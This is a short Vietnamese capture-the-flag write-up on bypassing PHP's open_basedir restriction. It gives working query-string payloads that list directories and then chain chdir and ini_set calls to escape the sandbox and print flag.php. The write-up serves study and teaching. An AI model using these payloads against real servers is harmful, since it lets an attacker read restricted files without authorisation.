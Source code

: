 # Solution


Sau khi nhìn vào source code mình nhận ra ngay đây là một dạng về bypass `open_basedir`. Về POC thì xem tại <https://github.com/Blaklis/my-challenges/tree/master/phuck3> hoặc tại <https://flagbot.ch/posts/phuck3/>.

Thử tạo một thư mục con với `mkdir()` thì bị báo là không đủ quyền 🥺

`?c=print_r(scandir('.'));`

=> `Array ( [0] => . [1] => .. [2] => tmp )`

hmm, author tạo sẵn folder `tmp` cho luôn thế thì càng tốt.

Tiếp theo áp dụng POC:
`?c=chdir('tmp');ini_set('open_basedir', '..');chdir('..');print_r(scandir('..'));`

```
Array ( [0] => . [1] => .. [2] => flag.php [3] => index.php [4] => php-fpm.sock [5] => sandbox [6] => source.php )
```

Final payload:
```
?c=chdir('tmp');ini_set('open_basedir', '..');chdir('..');chdir('..');ini_set('open_basedir', '/');show_source('flag.php');
```